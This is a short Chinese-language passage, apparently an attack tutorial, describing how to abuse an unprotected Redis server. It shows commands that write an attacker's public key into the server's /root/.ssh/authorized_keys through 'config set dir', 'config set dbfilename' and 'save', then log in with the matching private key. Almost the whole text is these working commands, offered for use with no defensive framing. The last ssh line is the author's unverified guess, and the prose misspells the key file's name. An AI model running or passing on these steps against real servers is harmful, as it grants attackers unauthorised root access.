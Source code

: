 
利用 Redis 自身的提供的 config 命令，可以进行写文件操作，攻击者可以成功将自己的公钥写入目标服务器的 `/root/.ssh` 文件夹的`authotrized_keys` 文件中，进而可以直接使用对应的私钥登录目标服务器。

> 攻击端，生成公私钥，写入不设防的redis

```bash
cat key.txt | redis-cli -h hostname --pass xxx -x set xxx
```

```redis
config set dir /root/.ssh  # 设置路径
config set dbfilename authorized_keys   # 设置文件名
save  # 保存 被攻击的服务器将会被覆盖 .ssh/authorized_keys文件
```
> 攻击端免密登入被攻击服务器

```bash
ssh -i id_rsa user@host
ssh -i host  # 好像也可以的
```

